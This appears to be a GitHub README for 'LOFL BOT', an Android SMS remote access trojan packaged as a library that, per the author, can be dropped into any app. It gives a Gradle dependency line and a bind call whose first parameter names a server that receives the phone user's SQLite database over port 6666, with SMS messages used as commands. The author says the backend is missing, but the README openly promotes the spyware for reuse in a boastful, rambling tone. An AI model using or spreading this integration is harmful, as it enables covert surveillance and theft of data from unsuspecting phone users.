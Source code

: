 # LOFL BOT
### A 3-year-old injectable SMS RAT. No backend. Therefore, the spyware remote commands won't work. I learned Android pentesting with library. I'm really embarrassed of the code and design. I removed this after a Nigerian NSA officer starred and followed me. This was my first RAT. Iwanteed to leave it to my child but it's for my father.

### Guess what all you beautiful ladies, social elitists, hackers, developers, engineers, crackers, terrorists, CandroidOgNinja fans, Candroid fans, Chris Basinger's fans, Evil Threads fans, family members, and federal agents. I've managed to hack the Android SMS module! By doing so, I've extended it's functionality to allow for SMS messages to only travel through the notification drawer without persistence. I was planning on adding media functionality as well. However , my life had to go on. There is a self-destructible SMS based notification messenger app. Like snapchat in your drawer. It's hidden in a git branch.

### Yeah baby. I allow you to copy and paste this import into any app in the world! And guess what! Then you just say "LOFL" and then guess what haha it becomes an SMS RAT.

```gradle
implementation 'com.github.evilthreads669966:lofl:1.0'
```


 
 1. Put the following line of code in oncreate of your mainactivity class
 
 LoflActivity.bind(this,"10.0.2.2", "123", this.getClass().getName());
 
 the first parameter is the server address which is responsible for receiving a sqlite database file from the users phone.
 
 the second parameter is what you will put at the start of your sms commands to tell the app that 'this is a command'
 
 the third paremeter is to let lofl know what your launch activity is
 
 the database is sent over port 6666
